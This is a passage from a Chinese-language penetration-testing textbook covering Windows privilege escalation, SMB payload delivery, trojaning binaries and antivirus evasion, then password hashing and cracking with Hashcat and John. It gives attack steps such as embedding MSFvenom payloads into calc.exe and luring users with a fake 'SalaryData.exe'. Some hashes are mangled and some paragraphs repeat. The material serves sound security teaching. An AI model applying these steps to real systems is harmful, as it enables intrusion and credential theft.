set SMBPass 4A4FB544D4D4F4B4G4A4C4F:5544F5B4A5D5D4F54
set SMBUser hhadmin
```

## 权限提升

在 Windows 上进行权限提升时，你将尝试获取本地机器的 `Administrator` 账户、`SYSTEM` 账户，并获取任何域管理员账户。实现这一点的方法是利用目标机器上的特定漏洞。

漏洞（与 UNIX 类黑客一样）可能针对内核或用户空间。这里是一些值得关注的历史性权限提升漏洞，它们为用户提供 `SYSTEM` 级权限：

- MS11-046: AFD 权限提升
- MS14-058: 内核利用
- MS15-078: Hacking Team 内核权限提升
- MS16-035: 登录服务

暴力破解 `Administrator` 账户是另一种可行的方法，直接从数据泄露中窃取凭据也是如此。你还应该检查配置错误的文件权限，这你已经在 Linux 中见过了。有一个名为 `PowerUp` 的工具（它是 `PowerShellSploit` 的一部分），可以自动化权限提升过程，可以使用它（github.com/PowerShellMafia/PowerSploit/tree/master/Privesc）。`PowerUp` 利用具有不安全权限的常见配置错误服务；一旦获得了受限的本地访问权限，通常就能获得 `SYSTEM` 等高权限访问。

> **PowerShell** 对攻击者来说很有用，因为它启用了 **AMSI** 并改进了针对攻击者使用的常用例程的检测工具。**NET 框架**以及 **C#**（读作 "C-Sharp"）的使用被工具作者更频繁地使用，因为它可以被混淆，并在大多数桌面和服务器上快速重新编译。许多以前用 **PowerShell** 编写的工具现在正被转换为 **C#** 或其他语言。

## 获取 SYSTEM

一旦你获得了足够的 `Administrator` 权限，有很多简单的方法可以获取 `SYSTEM`，例如使用 `sc.exe` 服务控制创建一个以 `LOCAL SYSTEM` 身份运行的任务。你可以与服务控制交互并指示它设置服务。你还可以通过网络远程与此服务交互。你经常需要获取 `SYSTEM`，我们将演示如何将 `Administrator` 凭据注入到 `SYSTEM` shell 中的示例，以下是 `sc.exe` 使用的命令概览：

```
可以使用 sc.exe <ip> <cmd> 如下远程使用
sc query - 列出所有服务
sc qc <service> - 查询配置（服务登录用户）
sc stop/pause/continue <service> - 停止/暂停/继续服务
sc control - 向服务发送 CONTROL B（在继续之后使用）
sc config VulnService binpath="c:\lol.exe" - 重新配置有漏洞的服务
```

```
sc enumdepend <Service> - 列出服务依赖项
sc <ip> create <serv> binpath=c:\blah.exe start=auto create remote service - 创建远程服务
```

你可以使用 `binpath` 创建服务并执行它。为了最充分利用服务进行权限提升，你必须为控制器编写一个实际的服务。然而，微软提供了许多容易修改的示例。Hacker House 使用了一个 `SYSTEM` 服务项目（github.com/hackerhouse-opensource/backdoors/blob/master/SYSTEMservice.tg），该项目将 shell 绑定到本地的 1337 端口，允许你使用此端口轻松打开 `SYSTEM`。你可以使用 `Visual Studio Community` 根据自己的目的对其进行编辑，由于它是编译代码，你需要确保目标系统安装了 `Visual Studio 2015`、`2017` 和 `2019` 的 `Microsoft C++ Redistributable`。它调用 `CppWindowsService.exe`，该程序将创建一个。

```
net start CppWindowsService
```

```
服务已启动。
```

```
net
```

```
whoami
nt authority\system
```

## 备用交付方法

到目前为止，我们假设 payload 是通过网络传输的。还有其他交付 payload 的方法，例如使用 USB 设备、SD 卡、DVD。在为客户进行渗透测试时，你可能需要插入工作站。

`MSFvenom` 是 `Metasploit` 的一部分，是一个用于生成独立 payload 的工具。你不需要将此文件刻录 CD/DVD 或保存到 USB 存储设备中。如果你可以将 payload 上传到目标服务器，可以通过这种方式进行。你也可以再次使用 `Meterpreter`。它的功能或命令之一是 `upload` 命令。

```
upload /path/to/local/payload.exe
```

如果这不起作用（有时由于杀毒软件或其他配置设置会导致），你可能需要寻找其他方法，例如使用 `CIFS`。它看起来可能是这样：

```
smbclient -L <TargetIP> -U helpdesk
smbclient -L 192.168.56.104 -U helpdesk
Enterter WORKGROUP\helpdesk's password:
```

| 文件 | 磁盘 | 描述 |
| --- | --- | --- |
| IPC | 远程 IPC | |
| NETLOGON | 磁盘 | 登录服务器共享 |
| SYSVOL | 磁盘 | 登录服务器共享 |
| SMB1 已禁用 | 无可用的工作组 | |

了解你可以使用 `SMBClient` 进行什么，然后将其挂载。

```
mount -t cifs \\\\Target\\C$ /mnt/data -o user=backup,vers=1.0
mount -t cifs \\\\192.168.56.104\\FILES /mnt/data -o user=helpdesk,vers=1.0
```

`helpdesk@\\192.168.56.104\\FILES` 的密码为: `***`

在你可以访问文件共享的地方输入用户的密码（或你获得的任何用户密码），你就可以将文件放置在挂载文件夹中。设置一个熟悉的程序图标（如 `Excel`），并将你的有效负载文件命名为 `SalaryData.exe`，通常可以成功诱导用户从文件存储访问它。

独立有效负载需要连接回你的本地机器——即你的 `Kali Linux` 虚拟机。为了做到这一点，你需要一个监听器。我们在之前的场合中使用过 `Netcat` 来执行此操作。然而，`Metasploit` 有一个用于此目的的内置工具。在使用 `exploit/multi/handler` 模块时，我们随后设置 `PAYLOAD windows/meterpreter/reverse_tcp`，让此监听器知道从哪个有效负载期望通信。你需要再次设置 `LHOST` 和 `LPORT` 以确保它们匹配，然后点击运行。最好将其作为后台作业运行，使用 `run -j`，这样就可以从 `Metasploit` 中控制它，同时允许你在等待反弹连接时继续使用框架的特性。

你的利用程序文件不太可能被 `Windows Defender` 或任何其他现代杀毒软件检测，因此让我们尝试一种不同的方法。从目标计算机复制一个文件进行感染。我们可以将我们的恶意有效负载隐藏在一个合法的文件中，使其在不被发现的情况下存在。

从你 `Kali Linux` 机器上挂载的文件夹中，你可以复制 Windows 计算器程序（`cp windows/system32/calc.exe <LocalPath/calc.exe>`）并使用 `Shelter` 在其中隐藏一个利用程序。你需要使用 `operation mode a` 进行自动处理，并将目标设置为 `calc.exe`。但是，如果你使用的是 64 位系统，就会出现问题，因为 `Shelter` 只支持 32 位系统，因此如果程序是 64 位的，你无法从网上下载无害程序；下载 32 位的 `PuTTY` 客户端 `.exe`，如果主机安装了 64 位二进制文件，则将你的有效负载隐藏在其中。

`Shelter` 将自动反汇并反向工程该二进制文件，注入一些钩子（`hooks`）和你的恶意代码。它还将直接运行该二进制文件作为此类分析的一部分，因此不要使用已被恶意软件感染的二进制文件。`Shelter` 生成的二进制文件


将绕过低劣的杀毒软件。同样，你可以使用 `Themida` 配合生成的 `MSFvenom` 有效负载产生一个可以绕过检测杀毒产品的二进制文件。你也可以使用 `Themida` 配合生成的 `MSFvenom` 有效负载产生一个可以绕过检测杀毒产品的二进制文件。在使用 `exploit/multi/handler` 模块时，我们随后设置 `PAYLOAD windows/meterpreter/reverse_tcp`，让此监听器知道从哪个有效负载期望通信。你需要再次设置 `LHOST` 和 `LPORT` 以确保它们匹配，然后点击运行。最好将其作为后台作业运行，使用 `run -j`，这样就可以从 `Metasploit` 中控制它，同时允许你在等待反弹连接时继续使用框架的特性。

### 绕过 Windows Defender

许多绕过 `Windows Defender` 的方法在 `Windows Server` 中无效，使用 `MSFvenom` 生成的有效负载将有效。

这是一项艰巨的任务，你可以使用商业打包软件来创建可以有效规避检测的二进制文件。



图 13.9: `Themida` - 一个虚拟机打包工具。

## 总结

Windows 网络通常被组织为森林，其中包含多个域树。域控制器是负责每个域的主机，并由域管理员账户管理。单个域管理森林中的其他域。攻击 Windows 域的终极目标是获得对域控制器的权限，因为它负责管理该域的其他部分。在 Windows 攻击中，域管理员账户是最重要的用户账户。用户通常通过运行在域控制器上的名为 `Active Directory`（或 `AD`）的集中服务进行身份验证。

在攻击 Windows 系统时，你应该应用从攻击 UNIX 类系统中学到的技术。扫描并探测主机以获取信息，识别存在漏洞的服务，并为这些漏洞寻找利用程序。记住，微软提供了软件的评估版本（包括 `Windows Server`），你应该建立自己的实验室来练习 Windows 攻击。

反病毒软件，特别是 `Windows Defender`，在防御 Windows 系统免受各种攻击方面起着重要作用，不仅仅是传统的计算机病毒。学习绕过此类软件检测的技术对于渗透测试来说是无价的。最新的 Windows 系统很难攻入，你可能需要开发自己的利用程序来绕过 `Windows Defender`。这是一项高级技能，所以如果这是你目前的水平，请不要灰馁。你不需要编写利用程序代码来发现与过时软件、配置错误的安全设置以及人类可预测性相关的漏洞。

你已经看到许多关键技术和协议——`DNS`、`Web` 服务器软件、`SMB` 和 `RDP`——在 `Windows Server` 主机上的表现形式。你还学习了一些攻击它们的策略。

一旦你找到了进入域内某一个 Windows 系统的方法，也许你可以在域内进行横向移动。可能通过更高的权限，你将能够转储 `SAM` 并检索其他用户的哈希值。

虽然 UNIX 类主机和 Windows 主机之间存在巨大差异，但你可以应用许多相同的技术和工具来进行探测、枚举信息和启动利用程序。

在下一章中，你将学习密码哈希值——它们究竟是什么，以及如何破解它们。无论你在 Unix 类系统还是 Windows 系统上发现哈希值，在破解密码哈希时都可以采用相同的技术。

# 第 14 章：密码

密码是黑客最好的朋友。它们可以被猜测、拦截、窃取和重用，以获取服务或系统的访问权限。它们通常是访问敏感数据的密钥，但很多时候，它们并不胜任当前的任务。人们经常选择弱密码，例如宠物的名字、喜欢的运动队或容易被猜到的重要日期。

设计系统的人也可能做出糟糕的决定。如果让人们生成更强的密码更符合直觉呢？此外，还存在如何以哈希值形式存储密码以便进行身份验证的问题。

在本章中，我们将查看密码哈希值、它们是什么，以及如何破解它们以获得它们本应该保护的明文密码。在整本书中，你已经看到了访问系统 `/etc/shadow` 文件的方法。我们研究了如何从 Windows 系统和其他其他类型的数据库中提取哈希值。现在，让我们尝试破解这些文件中的密码。

## 哈希（Hashing）

哈希是将取任意大小的输入（文本字符串、密码或文件），并产生固定大小输出的过程（例如一个数字，通常以十六进制或 `base64` 显示）。哈希在计算中有不同的应用。它被用于数据结构中（如加密货币的底层结构区块链）、用于检查通信的完整性以及存储密码。自然，我们在这里重点关注的是最后一种应用。

如果你注册了一个在线服务，提供了一些包括电子邮件地址和密码在内的个人详情，该密码会发生什么？理想情况下，它将通过 `HTTPS`（连同其他信息一起）传输到服务提供端，在服务端对密码应用安全的哈希算法或函数。该算法的结果将是一个哈希值。

搜索引擎 `DuckDuckGo` (duckduckgo.com) 可以快速生成不同类型的哈希值，你可能会发现将其用于实验和学习很有用。提交查询 `sha512 mypassword` 将得到以下结果：

```
a336ff71080bf4f2a23f311536d00f0c12dcf1741e9e8722a234670303d
c39caa8d29d198025f71890d363ca809c883ea53e5b1574508683d42e909c4ca
```

这是 `mypassword` 的哈希值。创建它的算法是 `SHA512`。记住，这个输出是一个以十六进制显示的数字。你可以想象当你将密码提交给 Web 应用程序时正在发生什么。


# 破解者的工具箱

这是密码破解者的工具箱，一组可以从加密或哈希密码中恢复明文的工具：

- `Hashcat`
- `John the Ripper`（也称为 `John`）
- `Ophcrack` 和 `RainbowCrack`（基于彩虹表的破解）
- `L0ptcrack` 和 `LCP`（用于破解哈希的 Windows 工具）
- `Cain & Abel`（用于破解 Windows 系统上的哈希）
- `HashID`（最初是哈希标识符）
- `CeWL`（单词列表生成器）
- 单词列表
- 哈希表
- 彩虹表

## 破解

即使哈希被认为是一个单向函数，但仍然可以从包含哈希值的数据库中获取用户的原始密码。还记得我们在书开始时作为开源情报（OSINT）活动的一部分查看 `have been pwned` (HIBP) 吗？HIBP 拥有一个密码哈希值数据库，你可以通过此数据库对比你的密码，查看它们是否在数据泄露中被破解。

破解者如何将一个哈希列表转换为密码呢？理论上，这个想法很简单。取一个常用密码列表并遍历该列表，在过程中对每个密码进行哈希处理。哈希后，将该哈希与泄露的哈希值进行对比。这意味着你已经确定了一个正确的密码。如果匹配成功，你就确定了一个字符字符串，该字符串经过哈希后的结果与你“窃取”列表中的哈希值相同。

工具正是为此目的而创建的。`John the Ripper` 是一种专门用于破解类 Unix 系统中存储的密码文件的工具。我们很快就会使用 `John the Ripper`。

以下是一些弱口密码的 MD5 哈希值：

- `5f4dc3b5aa765d61d837deb882cf99`
- `bdc87b9c84da51680590ebbff907`
- `4bc9c8a808fd0229477fcb1a411914`
- `e10dac399ba59abbe56e057f20883e`

为了在实践中演示破解哈希，我们将使用一个名为 `Hashcat` 的工具，它声称是“世界上快且最先进的密码恢复程序，可以在命令行包含许多不同的选项”。在运行该工具之前，将之前的哈希值（或你自己的哈希）添加到文本文件中，每行一个哈希值。尝试运行此命令：

```
hashcat -m 0 hashes.txt /usr/share/wordlists/rocky.txt
```

由于许多原因，这可能无法运行。首先，你需要确保当前目录下存在一个名为 `hashes.txt` 的文件，并且 `/usr/share/wordlists/rocky.txt` 同样存在。`Rocky.txt` 是 Kali Linux 自带的字典列表之一。如果你没有安装这些字典列表，可以简单地 `apt install wordlists`。你还需要提取 rocky 归包。

你可能会看到如下错误，在这种情况下请添加 `--force` 选项，这出于学习目的是允许的。

- Device #1: Not a native OpenCL runtime. Expect massive speed loss. You can use --force to override, but do not report related errors. No devices found/left.

如果你打算进行破解，你可能希望在你的主机操作系统上运行 `Hashcat`，并允许它直接使用你的图形处理器（GPU）以获得更好的性能。完整的命令应该像这样：

```
hashcat -m 0 --force hashes.txt /usr/share/wordlists/rocky.txt
```

`-m` 选项用于指定文件 `hashes.txt` 中的哈希类型。在这种情况下，使用 `0` 来指定原始 MD5。成功运行 `Hashcat` 时，你应该看到类似下面的输出：

```
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
==============================
- Device #1: thread-Intel(R) Core(TM) i7-6820HQ CPU @ 2.70GHz, 1024/2960 MB allocable, 1MCU
Hashes: 4 digests; 4 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff, 262144 bytes, 5/13 rotates: 1
- Applicable optimizers:
- Zero-Byte
- Early-Skip
- Not-Salted
- Not-Iterated
- Single-Salt
- Raw-Hash
内核支持的最小密码长度: 0
内核支持的最大密码长度: 256
注意：已选择了纯（未优化的）OpenCL 内核。
这允许破解长度大于 32 的密码和盐，但性能会大幅下降。
如果你想切换到优化的 OpenCL 内核，请在命令行中添加 `-0`。
Watchdog: 系统上未找到硬件监控接口。
Watchdog: temp abort triggered -1.
* Device #1: aborts 'cl-rd-cl.2 -I OpenCL -I /usr/share/hashcat/OpenCL - LOCAL_MEM_TYPE=2 - VENDOR_ID=64 - CUDA_ARCH=0 - AMD_RMC=0 - VECT_SIZE=E8 - DEVICE_TYPE=2 - DGST_R0=0 - DGST_R1=3 - DGST_R2=2 - DGST_R3=1 - DGST_ELEM=4 - DERN_TYPE=0 - _unlock_'
Dictionary cache hit:
* Filename: /usr/share/wordlists/rocky.txt
* Passwords: 14344385
* Bytes: 139921507
* Keyspace: 14344385
e10dac394b59aabbe6e557f20f883:123456
5f4dccb35aa769d1b6d327abb82cf99:password
4b9c8ea048fd0229447ffcb1a41191a:changeme
e7f49f9fa048badd080d0807fc49elcd0:password12345
Session:
Status......: Cracked
Hash.Type......: MD5
Hash.Target......: hashes.txt
Time.Starting......: May 9 13:09:22 2019 (0 secs)
Time.Estimated.....:  9 13:09:22 2019 ( secs))
Guess.Base:::usr/share/wordlists/rocky..)
```

对哈希编码，然后裁剪输出的末尾，使其符合给定的大小限制。归约函数的输出会被再次哈希，产生一个新的哈希，哈希和归约的过程将沿着链的长度持续进行。

要破解密码哈希，对目标哈希的处理与之前应用于它的过程相同。链中的每个链接都会与哈希的最终值进行比较，如果匹配，则说明明文密码在某处存在。

哈希表可以且应该被用来存储常用密码的哈希值。破解此表中存在的密码哈希只需要几分之一秒的时间。

彩虹表在磁盘空间和处理能力之间进行权衡，允许破解者能够恢复复杂的密码——即非字典单词。与哈希表不同，彩虹表并不包含由字符组合创建的每一个可能的哈希。它只存储每个生成哈希值的链的种子值和结束值。结果仍然是一个巨大的文件，但包含每个预计算哈希的哈希表会大大得多。彩虹表是密码分析时间内存权衡的示例，最早由 Martin Hellman 于 1980 年发表，随后由 Ron Rivest 和 Philippe Oechsl 改进。Oechsl 发明了彩虹表，你可以在 `ee.stanford.edu/~hellman/publications/36.pdf` 读取 Hellman 的论文《A Cryptanalytic Time – Memory Trade-Off》，也可以在 `lasec.epfl.ch/pub/lodec/Oech03.pdf` 读取 Oechsl 的《Making a Faster Cryptanalytic Time-Memory Trade-Off》。

关于彩虹表的更详细解释，请查阅 `en.wikipedia.org/wiki/rainbow-table` 维基百科条目。如果你面对的是哈希，例如微软的哈希（这不是一个真正的哈希函数，因为它是可逆的）或 MD5，且你正在使用彩虹表，那么获取密码可能只需要几秒钟时间。你可以在网上找到预生成的彩虹表，而 `Ophrack` 自带了一些如 `LANMAN` 之类的常用 Windows 哈希。

> 注意：当哈希使用每个哈希独有的盐进行加密时，彩虹表将无法工作。（盐将在下一节“添加盐”中解释）。你可以为每个使用过的盐生成一个新的彩虹表，但如果盐足够长，这将变得不切实际，且攻击者不太可能生成带有这些盐的表。如果每个账户都使用唯一的盐，这将影响使用彩虹表的有效性，这也是为什么这是一项被广泛推荐的安全最佳实践。

## 添加盐

如果攻击者发现了几个哈希并能够“破解”其中一些——即猜出正确的明文——那么一个密码就被猜中了。如果系统中的其他其他用户有相同的密码，那么攻击者也知道了这些哈希的明文，攻击者只需要搜索相同的哈希。盐的出现解决了这个问题，这意味着 `badpassword1232` 和 `badpassword123` 不会产生相同的哈希。这可以减慢破解尝试，当长盐与强密码结合时，哈希表和彩虹表将变成不切实际的攻击形式。这是因为每个被使用的盐都需要一个表，这极大地增加了所需的磁盘空间。

盐应该为每个哈希随机生成。假设一个用户选择了 `password1234` 作为其密码来保护其账户。作为其 MD5 哈希，它看起来像这样：

```
b19429eb39ee4c5358f87a3462cb54b5
```

现在为了演示，我们添加一个盐，任何伪随机数生成器都可以。你使用 `random.org`，它允许用户创建各种格式的随机数，但作为一种安全函数，这是极不建议的。以下是使用随机字节生成器生成的 10 个字节：

```
5cd43bbff315df4b03f
```

现在取原始明文密码，并拼接这些随机字节：

`mypassword12345cd43bbff315df4b03f`

最后，对这整串字符进行哈希。这里是 `mypassword12345cd43bbff315df4b03f` 的 MD5 哈希：

```
c141d651f63ef3ba3c6921441503e81
```

当使用盐时，哈希需要加盐。哈希有时被称为“原始”。如果你假设的数据库中其他数百万用户中有人使用了 `mypassword1234` 相同的密码，只要每个哈希都使用了唯一的盐，破解尝试就会被某种程度上降低，因为尽管密码相同，每个用户都会拥有一个由密码和盐组成的唯一哈希。

盐不需要记住或存储在你的密码管理器中。它通常存储在你访问的网站或服务的数据库中，与哈希相邻。盐不是秘密的（正如密码应该是秘密一样），而且每当用户使用密码登录时都需要它。这意味着你可以使用 `Hashcat` 或 `John the Ripper` 等工具来破解密码。`John` 会检测到使用了盐，并在生成哈希时使用它们。对于考虑安全性的应用程序，在密码数据库中添加盐应该被认为是强制性的。应用盐有不同的方法。有时，先对明文进行哈希，然后与盐再次哈希。

使用美元符号作为分隔符的哈希字符串是更长行的一部分——总共九个字段——使用冒号作为分隔符。


`(username):(hash):1:2:3:4:5:6:7`

其他字段含义如下：

1. 自 Unix 时间（1970/1/01）以来上次更改密码的天数。
2. 密码可以更改的天数。
3. 必须更改密码的天数。如前所示，`99999` 的值表示用户不会被强制更改密码。
4. 在强制更改密码前给予用户的警告天数。
5. 密码过期后账户被禁用的天数。
6. 自 Unix 时间以来账户被禁用的天数。
7. 最后一个字段留供以后使用。

使用默认设置启动 John 非常简单。你只需要提供一个 shadow 文件。为了开始，尝试从 shadow 文件中删除 root 用户（在操作 shadow 文件之前务必进行备份），以便所有哈希的类型相同，然后将编辑后的文件交给 John：

```
john mailserver.shadow
```

当 John 启动时，在显示任何破解密码之前，你会看到如下输出：

```
使用默认编码：UTF-8
加载了 7 个密码哈希，带有 7 个不同的盐 (crypt, traditional)
crypt(3) [DES 256/AVX2-16]]
```

John 检测到了 Unix 中的加密类型。你可以在这里查看传统的 `crypt(3)` 字词。在你的 Linux 虚拟机上运行 `man crypt` 查看主页获取有关此的信息。这些密码使用 Unix `crypt()` 函数加密的，该函数基于数据加密标准 (DES)。难以置信，密码包含一个微小的双字符（12位）盐。

然而，该算法存在缺陷，不应再被使用，因为现在的计算机可以非常快速地执行这种计算。尽管如此，它的做法是从用户密码的前几个字符中每个提取 7 位字节，以创建一个 56 位的密钥。密码前八个字符之后的所有内容都会被丢弃！这个 56 位的密钥用于反复加密一个常值——通常是一个全由零组成的字符串。这种重复加密的结果是 13 个 ASCII 字符，其中前两个字符代表盐（salt），其余字符表示哈值（hash）。

Debian 曾使用该系统来保护其 shadow 文件。曾几何时，有很多人在使用它并设置了长度和复杂的密码，但他们并不知道只存储了前八个字符！

## 暴力破解 DES

多年来，许多人制造了机器来暴力破解 DES。2006 年，德国的波鸿大学和基尔大学花费 10,000 美元制造了一台名为 COPACOBANA（[www.copacobana.org/IP/DES_slides.pdf]）的机器。它能够在几分钟内用尽 56 位密钥的所有组合。2012 年，另一个系统仍称为“世界上最快的 DES 破解器”，你可以在 crack.sh 上找到它。该系统可以在大约 26 小时内穷举暴力破解 DES。

也许你还记得第 8 章“虚拟私有网络”中提到的 3DES。3DES 通过多次使用 DES 改进了 DES，生成了 112 位的更大密钥。按今天的标准来说，这仍然被认为是不足够的。在加密文件或通信时，高级加密标准（AES）现在优于 DES 或 3DES。

我们在这里稍微偏离了主题，因为我们现在进入了加密领域，而不是哈希领域。记住，哈希和加密是不同的过程：加密应该是可以通过密钥可逆的，但哈希不应是可逆的。之所以有时会产生混淆，是因为某些哈希算法（例如用于哈希邮件服务器密码的 `crypt`）是基于加密算法的。

## 密码长度限制

你会注意到许多在线服务和 Web 应用程序对密码长度（以及复杂度）施加了任意限制。通常没有理由这样做，因为底层算法应该能够处理任何大小的字符串。无论输入字符串是什么，哈希算法的输出都具有固定长度。如果你发现他们的 Web 应用程序（或系统）不允许用户输入长密码或特殊字符，值得向你的客户指出这一点。你会看到网站强制用户输入特定的字符类型，例如数字和标点符号，但这些方法在保护密码免受暴力攻击方面的作用没有密码长度大。

## 第 14 章 密码

本书的作者之一喜欢在每次注册在线服务时生成长度为 30 个字符或以上的伪随机密码，这些密码由字母、数字和特殊字符组成。密码经常被拒绝，或者在登录时，由于某些内部错误导致密码无法被识别！通常，这是应用程序其他地方存在漏洞的迹象，可能表明有待进一步调查的安全问题。

现代的 shadow 文件不应包含此类弱加密哈希密码。你更有可能看到这些条目作为 root 用户的密码哈值（如上一个 shadow 文件的输出所示）。John 在检测这种类型的哈值（带盐的 SHA512 哈值）没有问题，如果你愿意，可以让他尝试破解它！如果你修改或向 John 提供一个包含 root 密码哈值的文件，你需要将该哈值写回 shadow 文件。John 像 Hashcat 一样，可以配置为使用系统的显卡（见图 14.1），如果你计划进行大量的密码破解，建议如此做。

```
Dev/1: Tanhis (AMD Radeon HD 5970 Series)
Using default encoding: UTF-8
Loaded password hash (gpg-agent, OpenPGP / GnuPG Secret Key [SHA1 OpenSSL])
with- 
Press 'Ctrl+C to abort, any other key for status
Arg 00:00:02:27 3/3 gs 6092e/6092e/6092c GPU:36°C 0sasu..lyty90
Arg 00:00:01:23 3/3 gs 6092p/6092p/6092c GPU:36°C 0sasu..
Arg 00:00:02:27 3/3 gs 5877b/5877b/5877c GPU:36°C cruelty..sowca
Arg 00:00:05:11 3/3 gs 5877b/5877b/5877c GPU:36°C hilli..pywa
Arg 00:00:08:09 3/3 gs 5697b/5697b/5697c GPU:37°C pelmy92..r11627
Arg 00:00:12:34 3/3 gs 5697b/5697b/5697c GPU:37°C hilli..amstro
Arg 00:00:18:24 3/3 gs 5693c/5693c/5693c GPU:37°C lot67
```

图 14.1

John 能够检测这种类型的哈值（带盐的 SHA512 哈值）没有问题，如果你愿意，可以让他尝试破解它！如果你修改或向 John 提供了一个包含 root 密码哈值的文件，你需要将该哈值写回 shadow 文件。John 像 Hashcat 一样，可以配置为使用系统的显卡（见图 14.1），如果你计划进行大量的密码破解，建议如此做。

由 Ruby on Rails（一个开源 Web 框架）生成。这是一个你可能在影子文件（shadow file）中看到的 bcrypt 哈希示例。注意，尽管使用了相同的美元符号分隔符，但 bcrypt 哈希的字段与其他某些哈希的并不相同。

```
$2b$12FPWQ02RJ3CK4FPINTW08OIPKJKx653gzgSS.jq1tcHFcmyDmmQHqq
```

第一个字段 `$2b$12` 表示代价因子（cost factor），在本例中为 12。这意味着 bcrypt 的密钥函数（稍后会解释）会进行 $2^{12}$ 次迭代，应用于提供的密码和随机生成的盐值（salt）。第三字段的前 22 个字符是盐值，剩余字符是哈希值。

## CRC16/CRC32

循环冗余校验（CRC）算法长期以来一直用于生成校验和。它绝不应该被用于生成安全的哈希。你不可能看到它用于此类目的，但我们将其包含在这里是因为它是一种常用的算法，有时会被误用作哈希函数。

## PBKDF2

基于密码的密钥派生函数（版本 2）（PBKDF2）是一种密钥派生函数，通常用于密码哈希。密钥派生函数用于从现有的密钥或密码生成或派生密钥。为了减缓任何暴力攻击，密钥派生函数通常被故意设计得很慢。它们使用名为“密钥拉伸”（key-stretching）的技术创建一个比原始密钥或密码更强、更安全的密钥。它可以产生一个比原始密码长或格式不同的派生密钥。

密钥派生函数生成的哈希会经过哈希处理，然后对该哈希再次进行哈希。此过程可以重复数百或数千次。这意味着当用户登录系统时，他们的密码必须经过相同次数的哈希处理，并比较结果。这让普通用户的登录过程稍微变慢，而不仅仅尝试暴力破解账户。想一下在解密硬盘时检查密码所需的时间。这是 PBKDF2 的常用之处。PBKDF2 和其他密钥派生方法本身并不是哈希算法。它们会使用某些哈希算法（如 SHA-2），然后通过拉伸过程来增加实施暴力攻击的复杂度。

## 第 14 章 密码 533

## 碰撞


早在 2010 年，两位名为 Tao Xie 和 Dengguo Feng 的研究人员证明了 MD5 碰撞是可能的。看这里的两个数据字符串：

```
0230656159aa870d0bc6f70bbde35404f03659e74f8534c0ffb659c487440c942f
eb2da15af415bb55b6074973865663d1f34a42059d78f5a8dd1ef
```

```
0230656159aa870d0bc6f70bbde35404f03659e74f8534c0ffb659c487440c942f
feb2da15af415bb55b607497386563d1f34a42059d78f5a8dd1eef
```

这些字符串是相同的，除了第一个例子中高亮的区块显示为 `55cb`，而第二个显示为 `5dcb`。如果你在第二个中创建一个 MD5 哈希，在你的机器上将得到相同的哈希：

```
cee9a457e79cf0f20d4aa6d690f1e41
```

这表明两个输入片段（非常相似，是的，但关键在于并不相同）产生了完全相同的哈希。这就是碰撞，意味着两个（或多个）密码可能会产生相同的哈希。这表明可能可以使用多个不同的密码登录用户账户——而不仅仅是同一个密码。你可能认为这不太可能，但考虑到计算机的处理能力以及它们生成哈希并比较是否匹配的速度有多快。

考虑文件下载时发生碰撞的影响。在第 3 章“构建你的哈希盒”中，我们解释了为什么检查下载内容的完整性非常重要。MD5 被用于此目的，但碰撞意味着恶意可能会修改可执行文件使其包含恶意软件，同时仍然产生相同的哈希。这就是为什么在检查文件或通信完整性时需要哈希算法的原因：

## 伪哈希

嵌入式硬件在安全方面的存储空间往往很短缺。它们可能不对密码进行哈希，甚至不对其进行加密，而是使用一种产生看起来像密码但实际上仅仅是编码字符串的函数。其中一个例子是 Cisco Type 7 “加密”方法，它用于某些 Cisco 网络设备。以这种方式存储的密码可以轻易地反转为原始明文格式。这些设备使用硬编码密钥 `tfd;kfoA,.iyewrkldJKD` 使用 XOR 密编码密码。

## 第 14 章 密码

认为因为看起来像哈希所以它被加密了是一个很容易犯的错误。例如，你可能会在配置中发现某些经过哈希或加密的数据，但它们实际上只是被编码了。以下是一些你可能想要获取的目标示例：

```
version 12
no service
hostname Switch
banner motd
enable secret
password7 022E055800031D0943
username admin password 022E055800031D0943
password 7 022E055800031D0943
```

如果你发现在使用 NTLM，你可以使用来自 `www.hacker.com/cisco_type` 的工具恢复明文。要运行该工具只需输入以下命令：

```bash
perl cisco_type
```

脚本将提示你：

```
[+] Type 7
[-] Encrypted password?
```

粘贴类型 7 的 “哈希”（`022E055800031D0943`），搞定，你将看到此处显示的明文：

```
- Encrypted password: 022E055800031D0943
- Result: Hacker
```

你可能在可以通过易易文件传输协议（TFTP）访问的该区域发现配置文件。多年来寻找这些类型取得了巨大的成效。

## 微软哈希

从 Windows XP 开始，安全账户管理器（SAM）存储了用户的密码。SAM 是一个数据库文件（存储在 `C:\Windows\System32\config\SAM`），只要 Windows 运行时对其保持永久锁定。该文件也是加密的，这使得从磁盘复制它变得更加困难。虽然无法从系统内存恢复哈希，但只要你有足够的权限，就可以导出这些文件。旧系统可能仍在使用有缺陷的 LM（LANMAN 或 LAN Manager）哈希，而新系统通常使用 NT Lan Manager（NTLM）哈希。

在 LM 哈希中，如果你的密码超过七个字符但少于 14 个，会创建两个哈希——一个针对前七个，另一个针对后续的。字符在哈希之前会被转换为大写，这导致密码对大小不敏感。

尽管采用了改进后的系统 NTLM，但某些系统使用 LM 哈希的时间远超安全范围。特别是对于从一个操作系统迁移到下一个系统的组织——例如从 Windows Server 2000 迁移到 Windows Server 2003 再到 Windows Server 2008，保留了以前配置的安全设置。从 LM 哈希派生明文是非常容易的。使用彩虹表还需要几秒钟。John 在处理 LM 哈希时非常好。以下是一些你可能想要获取的示例：

```
